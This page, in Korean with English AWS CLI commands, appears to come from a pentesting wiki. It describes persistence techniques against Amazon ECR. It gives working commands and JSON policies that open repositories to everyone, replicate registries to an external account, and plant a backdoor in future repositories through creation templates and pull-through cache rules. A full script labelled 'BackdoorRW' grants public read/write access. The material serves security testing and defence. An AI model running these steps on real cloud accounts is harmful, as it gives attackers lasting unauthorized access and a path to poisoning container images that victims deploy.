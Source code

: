# AWS - ECR Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

자세한 내용은 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-ecr-enum.md
{{#endref}}

### Hidden Docker Image with Malicious Code

공격자는 ECR 리포지토리에 **malicious code를 포함한 Docker 이미지를 업로드**하여 대상 AWS 계정에서 persistence를 유지할 수 있습니다. 그런 다음 공격자는 Amazon ECS나 EKS와 같은 계정 내의 다양한 서비스에 해당 악성 이미지를 은밀하게 배포할 수 있습니다.

### 리포지토리 정책

하나의 리포지토리에 자신(또는 모든 사용자)에게 접근 권한을 부여하는 정책을 추가합니다:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
> [!WARNING]
> ECR는 사용자가 레지스트리에 인증하고 Amazon ECR 리포지토리에서 이미지를 push 또는 pull하기 전에, IAM policy를 통해 **`ecr:GetAuthorizationToken`** API를 호출할 수 있는 **권한**을 가지고 있어야 한다는 점에 유의하세요.

### 레지스트리 정책 및 크로스-계정 복제

cross-account replication을 구성하면 레지스트리를 외부 계정에 자동으로 복제할 수 있으며, 이때 레지스트리를 복제하려는 외부 계정을 **명시**해야 합니다.

<figure><img src="../../../images/image (79).png" alt=""><figcaption></figcaption></figure>

먼저, 다음과 같은 **registry policy**로 외부 계정에 레지스트리 접근 권한을 부여해야 합니다:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
그런 다음 복제 구성(replication config)을 적용하세요:
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
### Repository Creation Templates (prefix backdoor for future repos)

ECR Repository Creation Templates를 악용하면 제어된 접두사 아래에서 ECR이 자동으로 생성하는 모든 리포지토리에 대해 자동으로 backdoor를 심을 수 있습니다(예: Pull-Through Cache 또는 Create-on-Push를 통해). 이렇게 하면 기존 리포지토리를 건드리지 않고도 향후 리포지토리에 지속적인 무단 접근 권한을 확보할 수 있습니다.

- 필요 권한: ecr:CreateRepositoryCreationTemplate, ecr:DescribeRepositoryCreationTemplates, ecr:UpdateRepositoryCreationTemplate, ecr:DeleteRepositoryCreationTemplate, ecr:SetRepositoryPolicy (used by the template), iam:PassRole (if a custom role is attached to the template).
- 영향: 대상 접두사 아래에 생성되는 모든 신규 리포지토리는 자동으로 공격자가 제어하는 repository policy(예: cross-account read/write), tag mutability, 및 scanning defaults를 상속합니다.

<details>
<summary>Backdoor future PTC-created repos under a chosen prefix</summary>
```bash
# Region
REGION=us-east-1

# 1) Prepare permissive repository policy (example grants everyone RW)
cat > /tmp/repo_backdoor_policy.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "BackdoorRW",
"Effect": "Allow",
"Principal": {"AWS": "*"},
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer",
"ecr:InitiateLayerUpload",
"ecr:UploadLayerPart",
"ecr:CompleteLayerUpload",
"ecr:PutImage"
]
}
]
}
JSON

# 2) Create a Repository Creation Template for prefix "ptc2" applied to PULL_THROUGH_CACHE
aws ecr create-repository-creation-template   --region $REGION   --prefix ptc2   --applied-for PULL_THROUGH_CACHE   --image-tag-mutability MUTABLE   --repository-policy file:///tmp/repo_backdoor_policy.json

# 3) Create a Pull-Through Cache rule that will auto-create repos under that prefix
#    This example caches from Amazon ECR Public namespace "nginx"
aws ecr create-pull-through-cache-rule   --region $REGION   --ecr-repository-prefix ptc2   --upstream-registry ecr-public   --upstream-registry-url public.ecr.aws   --upstream-repository-prefix nginx

# 4) Trigger auto-creation by pulling a new path once (creates repo ptc2/nginx)
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com

docker pull ${acct}.dkr.ecr.${REGION}.amazonaws.com/ptc2/nginx:latest

# 5) Validate the backdoor policy was applied on the newly created repository
aws ecr get-repository-policy --region $REGION --repository-name ptc2/nginx --query policyText --output text | jq .
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
